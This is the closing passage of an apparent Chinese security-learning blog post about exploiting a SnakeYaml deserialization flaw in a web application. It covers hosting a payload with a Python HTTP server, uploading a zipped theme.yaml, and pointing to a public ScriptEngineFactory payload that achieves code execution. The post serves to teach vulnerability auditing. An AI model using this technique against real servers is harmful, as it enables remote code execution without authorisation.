

```
python -m http.server 8080
```

把theme.yaml压缩为theme.zip后上传：  


可以看到成功执行了，python 服务器接收到了反应，但没有执行calc，可能是我代码写的有问题

使用这个Payload编译可成功执行：<https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java>

# 总结

还是要多上手实战审计项目的，迈开第一步总是艰难的，但是只要走了第一步后面就好走了。过两天跟一下SnakeYaml反序列化链子，具体学习一下
